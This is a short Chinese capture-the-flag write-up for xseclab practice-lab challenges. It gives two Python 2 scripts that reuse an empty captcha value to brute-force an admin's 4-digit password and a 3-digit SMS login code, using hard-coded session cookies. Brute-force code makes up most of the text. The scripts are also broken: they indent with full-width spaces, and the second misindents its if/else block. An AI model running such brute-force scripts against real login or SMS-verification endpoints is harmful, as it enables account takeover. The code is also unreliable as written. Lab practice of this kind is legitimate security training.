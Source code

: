 程序猿：“该死的黑客，我让你绕！我验证一次就让你的验证码失效，看你怎么绕！”

这一关的验证码，验证一次以后就失效了，但是再次提交的时候就不需要再考虑验证码是否正确的问题了，所以在脚本中只要保证验证码为''的就可以

```
import requests

url = "http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/login.php"
req = requests.session()
header = {"Cookie":"PHPSESSID=3c39940da50b514038b3e9971ee5f57e"}

for pwd in xrange(1000,10000):
　　data={'username':'admin','pwd':pwd,'vcode':''}
　　ret = req.post(url, data=data, headers=header)

　　if 'error' not in ret.text:
　　　　print ret.text
　　　　print "good: password is:" + str(pwd)
　　　　break
　　else:
　　　　print "try:" + str(pwd) + " and result is :"+ ret.text

```

http://lab1.xseclab.com/vcode3_9d1ea7ad52ad93c04a837e0808b17097/index.php 跟上面一样的脚本

http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/

爆破再爆破，点击验证码再运行脚本哦，跟着获得另一个手机号，再获取验证码，再修改手机号再运行脚本

```
import requests

url = "http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php"
req = requests.session()
header = {"Cookie":"PHPSESSID=61556a5b2a6c2a03a2f35b199cbb5364"}
for vcode in xrange(100,1000):
　　data={'username':'13388886666','vcode':vcode, 'Login':'submit'}
　　# data={'username':'13399999999','vcode':vcode, 'Login':'submit'}
　　ret = req.post(url, data=data, headers=header)
　　　　if 'error' not in ret.text:
　　　　　　print ret.text
　　　　　　print "good: vcode is:" + str(vcode)
　　　　　　break
　　　　else:
　　　　　　print "try:" + str(vcode) + " and result is :"+ ret.text 

```